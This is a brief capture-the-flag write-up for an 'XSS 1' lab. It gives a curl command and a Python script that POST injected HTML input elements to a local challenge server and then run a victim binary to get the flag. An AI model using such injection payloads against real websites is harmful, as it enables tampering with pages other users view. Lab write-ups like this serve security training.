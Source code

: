 # XSS 1

#### Pretty straight forward, craft a POST request with 3 text boxes:

```curl -d "content= <input type=\"text\"><input type=\"text\"><input type=\"text\">"```

----------------------------------------

#### Then call the victim

```/challenge/victim```

-----------------------------------------

#### Or the Python script

```python
import requests
import subprocess

url = "http://challenge.localhost/"
data = {
    "content": "<input type=\"text\"><input type=\"text\"><input type=\"text\">"
}

req = requests.post(url=url, data=data)
flag = subprocess.run('/challenge/victim')
```

